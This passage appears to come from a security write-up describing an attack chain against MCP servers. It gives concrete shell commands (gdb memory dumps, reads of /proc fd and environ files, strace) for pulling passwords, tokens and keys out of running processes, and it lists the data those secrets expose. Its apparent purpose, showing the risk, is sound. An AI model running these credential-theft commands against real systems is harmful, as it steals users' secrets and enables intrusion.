 ## The Catastrophic Attack Chain

### Step 1: Initial Access
```bash
# Any code execution as 'alice' = game over
# Could be from:
- Malicious npm package
- Chrome extension
- VS Code extension  
- Compromised dev tool
- Supply chain attack
- Phishing payload
```

### Step 2: Enumerate MCP Servers
```bash
# Find all MCP processes
ps aux | grep -E '(mcp|claude)' | grep -v grep

# Result:
alice 31337 python /home/alice/mcp/db-server.py
alice 31338 node /home/alice/.npm/mcp-fs/index.js
alice 31339 mcp-github
```

### Step 3: Extract Everything
```bash
# Method 1: Direct memory access
gdb -p 31337 -batch -ex 'dump memory /tmp/mcp.dump 0x00 0xFFFFFFFF'
strings /tmp/mcp.dump | grep -E '(password|token|key|secret)'

# Method 2: File descriptor hijacking  
ls -la /proc/31337/fd/
cat /proc/31337/fd/3  # STDIO pipe with credentials

# Method 3: Environment theft
cat /proc/31337/environ | tr '\0' '\n' | grep -E '(TOKEN|KEY|PASS)'

# Method 4: Trace live traffic
strace -p 31337 -s 4096 -e read,write 2>&1 | tee mcp-traffic.log
```

### Step 4: Pivot to Everything

With MCP credentials, attacker now has:

```yaml
Database Access:
  - Customer PII
  - Financial records
  - Business intelligence
  - Audit logs (to hide tracks)

GitHub Access:
  - All private repositories
  - Ability to push backdoors
  - Access to CI/CD secrets
  - Organization-wide permissions

File System Access:
  - SSH private keys
  - AWS/GCP/Azure credentials
  - Browser stored passwords
  - Slack/Discord tokens
```